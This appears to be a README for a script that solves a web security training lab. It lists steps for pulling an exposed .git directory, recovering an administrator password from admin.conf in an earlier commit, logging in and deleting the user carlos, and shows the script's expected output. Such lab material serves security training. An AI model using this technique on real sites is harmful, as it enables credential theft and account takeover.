 # Hack Steps

1. Fetch the .git directory
2. Reset to the previous commit
3. Get the administrator password from the admin.conf file
4. Login as administrator
5. Delete carlos

# Run Script

1. Change the domain of the lab
2. Make sure that wget and git are installed on your system
3. Start script

```
~$ cargo run
```

# Expected Output

```
⦗1⦘ Fetching .git directory (wait a minute).. OK
⦗2⦘ Changing current working directory.. OK
⦗3⦘ Resetting to the previous commit.. OK
⦗4⦘ Reading admin.conf file.. OK
⦗5⦘ Extracting the administrator password.. OK => rip9q0tdout2mduxi2og
⦗6⦘ Fetching login page to get a valid session and csrf token.. OK
⦗7⦘ Logging in as administrator.. OK
⦗8⦘ Deleting carlos.. OK
🗹 The lab should be marked now as solved
```
